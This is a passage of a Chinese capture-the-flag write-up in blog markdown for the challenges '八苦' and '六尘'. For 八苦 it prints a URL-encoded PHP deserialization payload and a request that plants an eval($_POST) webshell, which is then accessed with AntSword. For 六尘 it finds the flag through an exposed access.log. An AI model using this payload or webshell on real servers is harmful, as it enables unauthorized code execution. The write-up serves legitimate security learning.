 得到 flag

{% asset_img 12.png%}

### 八苦

扫目录，查看源码index.phps

{% asset_img 13.png%}

反序列化，step1 提示，查看 phpinfo()，直接构造序列化串

{% asset_img 14.png%}

{% asset_img 15.png%}

找到 preload 文件

{% asset_img 16.png%}

构造 反序列化串

{% asset_img 17.png%}

O%3A13%3A"Welcome_again"%3A2%3A%7Bs%3A7%3A"willing"%3Bi%3A1%3Bs%3A6%3A"action"%3BO%3A4%3A"Test"%3A2%3A%7Bs%3A10%3A"%00%2A%00careful"%3BN%3Bs%3A8%3A"securuty"%3Ba%3A1%3A%7Bs%3A9%3A"say_hello"%3Bi%3A1%3B%7D%7D%7D

http://111.33.164.6:10004/?foo=O%3A13%3A%22Welcome_again%22%3A2%3A%7Bs%3A7%3A%22willing%22%3Bi%3A1%3Bs%3A6%3A%22action%22%3BO%3A4%3A%22Test%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00careful%22%3BN%3Bs%3A8%3A%22securuty%22%3Ba%3A1%3A%7Bs%3A9%3A%22say_hello%22%3Bi%3A1%3B%7D%7D%7D&dangerous="/var/www/html/flag.php";eval($_POST['a'])

蚁剑连接

{% asset_img 18.png%}

得到flag

### 六尘

扫描目录扫到/log目录，访问 access.log

{% asset_img 19.png%}

查找 flag，得到 flag 提交地址

{% asset_img 20.png%}

得到 flag

{% asset_img 21.png%}